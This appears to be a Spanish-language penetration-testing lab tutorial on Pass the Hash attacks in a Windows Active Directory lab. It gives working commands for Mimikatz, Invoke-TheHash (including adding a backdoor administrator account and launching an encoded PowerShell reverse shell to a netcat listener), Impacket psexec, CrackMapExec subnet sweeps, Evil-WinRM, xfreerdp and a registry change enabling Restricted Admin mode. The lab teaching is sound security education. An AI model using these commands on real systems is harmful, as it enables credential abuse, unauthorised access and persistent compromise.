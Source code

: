 # Pass the Hash (PtH)

Un ataque **Pass the Hash (PtH)** es una técnica en la que un atacante utiliza un hash de contraseña en lugar de la contraseña en texto plano para autenticarse. El atacante no necesita descifrar el hash para obtener la contraseña en texto claro. Los ataques PtH explotan el protocolo de autenticación, ya que el hash de la contraseña permanece estático en cada sesión hasta que la contraseña es cambiada.

Como se discutió en secciones anteriores, el atacante debe tener privilegios administrativos o permisos especiales en la máquina objetivo para obtener un hash de contraseña. Los hashes se pueden obtener de varias maneras, incluyendo:

* Volcado de la base de datos SAM local desde un host comprometido.
* Extracción de hashes de la base de datos NTDS (ntds.dit) en un Controlador de Dominio.
* Extracción de hashes de la memoria (lsass.exe).

Supongamos que obtenemos el hash de contraseña (64F12CDDAA88057E06A81B54E73B949B) para la cuenta julio del dominio **inlanefreight.htb**. Veamos cómo podemos realizar ataques Pass the Hash desde máquinas Windows y Linux.

> **Nota**: Las herramientas que utilizaremos están ubicadas en el directorio `C:\tools` en el host objetivo. Una vez que inicies la máquina y completes los ejercicios, podrás usar las herramientas en ese directorio. Este laboratorio contiene dos máquinas: tendrás acceso a una (MS01), y desde allí te conectarás a la segunda máquina (DC01).

## Introducción a Windows NTLM

El **New Technology LAN Manager (NTLM)** de Microsoft es un conjunto de protocolos de seguridad que autentican la identidad de los usuarios y protegen la integridad y confidencialidad de sus datos. NTLM es una solución de inicio de sesión único (SSO) que utiliza un protocolo de desafío-respuesta para verificar la identidad del usuario sin que este proporcione su contraseña.

A pesar de sus fallos conocidos, NTLM sigue siendo comúnmente utilizado para garantizar la compatibilidad con clientes y servidores heredados, incluso en sistemas modernos. Aunque Microsoft sigue soportando NTLM, Kerberos ha tomado su lugar como el mecanismo de autenticación predeterminado en dominios de Active Directory (AD) desde Windows 2000.

Con NTLM, las contraseñas almacenadas en el servidor y en el controlador de dominio no están "saladas", lo que significa que un atacante con un hash de contraseña puede autenticar una sesión sin conocer la contraseña original. A esto lo llamamos un ataque **Pass the Hash (PtH)**.



## Pasar el Hash con Mimikatz (Windows)

La primera herramienta que utilizaremos para realizar un ataque PtH es **Mimikatz**. Mimikatz tiene un módulo llamado `sekurlsa::pth` que permite realizar un ataque Pass the Hash iniciando un proceso utilizando el hash de la contraseña del usuario. Para usar este módulo, necesitaremos lo siguiente:

* `/user` - El nombre del usuario que queremos suplantar.
* `/rc4` o `/NTLM` - El hash NTLM de la contraseña del usuario.
* `/domain` - El dominio al que pertenece el usuario a suplantar. En el caso de una cuenta de usuario local, podemos usar el nombre del equipo, `localhost`, o un punto (.).
* `/run` - El programa que queremos ejecutar con el contexto del usuario (si no se especifica, lanzará `cmd.exe`).

**Ejemplo** de Pass the Hash desde Windows usando Mimikatz:

```shell
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

```yaml
user    : julio
domain  : inlanefreight.htb
program : cmd.exe
impers. : no
NTLM    : 64F12CDDAA88057E06A81B54E73B949B
```

Ahora podemos usar `cmd.exe` para ejecutar comandos en el contexto del usuario. En este ejemplo, julio puede conectarse a una carpeta compartida llamada julio en el **DC**.

<figure><img src="../../.gitbook/assets/pth_julio (1).jpg" alt=""><figcaption></figcaption></figure>

## Pasar el Hash con PowerShell Invoke-TheHash (Windows)

Otra herramienta que podemos usar para realizar ataques PtH en Windows es **Invoke-TheHash**. Esta herramienta es una colección de funciones de PowerShell para realizar ataques Pass the Hash con **WMI** y **SMB**. Las conexiones WMI y SMB se acceden a través del **.NET TCPClient**. La autenticación se realiza pasando un hash NTLM al protocolo de autenticación NTLMv2. No se requieren privilegios de administrador local en el lado del cliente, pero el usuario y el hash que usamos para autenticarnos necesitan tener derechos administrativos en la computadora objetivo.

En este ejemplo usaremos al usuario julio y el hash **64F12CDDAA88057E06A81B54E73B949B**.

Al usar **Invoke-TheHash**, tenemos dos opciones: ejecución de comandos con **SMB** o **WMI**. Para usar esta herramienta, debemos especificar los siguientes parámetros para ejecutar comandos en la computadora objetivo:

* **Target** - Nombre de host o dirección IP del objetivo.
* **Username** - Nombre de usuario para la autenticación.
* **Domain** - Dominio para la autenticación. Este parámetro no es necesario con cuentas locales o al usar `@dominio` después del nombre de usuario.
* **Hash** - Hash NTLM de la contraseña para autenticación. Este comando acepta el formato **LM**o **NTLM**.
* **Command** - Comando a ejecutar en el objetivo. Si no se especifica un comando, la función verificará si el usuario y el hash tienen acceso a WMI en el objetivo.

El siguiente comando usará el método SMB para ejecutar un comando y crear un nuevo usuario llamado mark y agregarlo al grupo de Administradores.

```powershell
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

### Listener de Netcat y Reverse Shell

Podemos obtener una conexión de reverse shell en la máquina objetivo utilizando **Netcat**. Por ejemplo, si nuestra máquina Windows tiene la dirección IP **172.16.1.5**, podemos iniciar un listener en el puerto **8001**.

```powershell
PS C:\tools> .\nc.exe -lvnp 8001
listening on [any] 8001 ...
```

Para crear una simple reverse shell usando PowerShell, podemos visitar [https://www.revshells.com](https://www.revshells.com), establecer nuestra IP **172.16.1.5** y puerto **8001**, y seleccionar la opción **PowerShell #3 (Base64)**.

<figure><img src="../../.gitbook/assets/rshellonline.jpg" alt=""><figcaption></figcaption></figure>

### **Invoke-TheHash con WMI (Windows)**

`Invoke-TheHash` es un módulo de PowerShell que permite ejecutar comandos en sistemas remotos utilizando el hash de una contraseña. En este caso, se emplea el hash NTLM para ejecutar un comando PowerShell en el objetivo `DC01`.

```powershell
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e [comando_base64]"
```

En este caso, el comando ejecutado con éxito en `DC01` da como resultado una **shell inversa** desde el host `DC01`.

<figure><img src="../../.gitbook/assets/pth_invoke_the_hash.jpg" alt=""><figcaption></figcaption></figure>

## **Pass the Hash con Impacket PsExec (Linux)**

Impacket es una colección de scripts en Python que permiten realizar diversas operaciones, como la ejecución de comandos y la autenticación en sistemas remotos. Con `impacket-psexec`, se puede ejecutar comandos en un sistema remoto utilizando el hash NTLM de una cuenta.

```bash
sherlock28@htb[/htb]$ impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

Este comando crea una sesión remota en la máquina con dirección `10.129.201.126` usando el hash proporcionado.

## **Pass the Hash con CrackMapExec (Linux)**

`CrackMapExec` es una herramienta muy utilizada para evaluar redes de **Active Directory**. Con ella, puedes autenticarte en varios hosts de una red para identificar aquellos donde puedas ejecutar comandos.

Ejemplo de uso con Pass the Hash:

```bash
sherlock28@htb[/htb]# crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

Este comando realiza un intento de autenticación en todos los hosts de la red `172.16.1.0/24` usando el hash del administrador. Si el intento es exitoso en alguno de los hosts, se muestra como "Pwn3d!" en la salida.

## **Pass the Hash con Evil-WinRM (Linux)**

`Evil-WinRM` es otra herramienta que permite la autenticación remota en sistemas Windows utilizando PowerShell Remoting. Puedes autenticarse usando un hash en lugar de la contraseña:

```bash
sherlock28@htb[/htb]$ evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

Esto abrirá una sesión de PowerShell en la máquina remota `10.129.201.126` con el usuario `Administrator` usando el hash proporcionado.

## **Pass the Hash con RDP (Linux)**

También se puede usar el protocolo **RDP** para realizar un ataque Pass the Hash y obtener acceso gráfico a una máquina remota. Esto se hace con `xfreerdp`:

```bash
sherlock28@htb[/htb]$ xfreerdp /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

Esto intentará conectarse a la máquina con RDP usando el hash en lugar de la contraseña.

<figure><img src="../../.gitbook/assets/rdp_session-4.webp" alt=""><figcaption></figcaption></figure>

#### Consideraciones:

* **UAC (User Account Control)** puede limitar el alcance de estos ataques en cuentas locales.
* En algunos casos, es necesario habilitar **Restricted Admin Mode** en el host objetivo para que el ataque funcione correctamente.

Para ello, puedes agregar la siguiente clave al registro del sistema en la máquina objetivo:

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0
```
